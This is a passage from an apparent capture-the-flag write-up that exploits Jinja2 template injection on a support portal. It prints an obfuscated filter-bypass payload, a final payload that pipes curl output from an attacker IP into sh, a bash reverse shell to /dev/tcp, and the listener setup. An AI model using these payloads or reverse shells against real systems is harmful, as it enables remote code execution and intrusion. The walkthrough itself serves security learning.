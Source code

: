  Since the message stated the support portal should be fixed we might be lucky and the blacklist is not implemented fully. `{% raw %}{%{% endraw %}` and `with` seem to be working so we can adapt this [jinja2 obfuscated payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass) from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).

```
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}{% endraw %}
```

`Final payload:`

```
{% raw %}{%25+with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl+10\x2e10\x2e14\x2e17|sh")|attr("read")()+%25}{%25+endwith+%25}{% endraw %}
```

This payload bypasses the `.` restriction with `|attr` and `\x2e`.  Also `_` get's replaced by `\x5f`. The payload goes up the tree to python builtins and calls `os.popen("curl ip|sh").read()`.

`Contents of index.html:`
```
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.17/7575 0>&1"
```

First we set up a python webserver in the directory with `index.html` and a ncat listener on the port we specified.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We then issue a request in Burp repeater with our payload on the support portal.

[![revshell](/img/spider/revshell.png)](/img/spider/revshell.png)
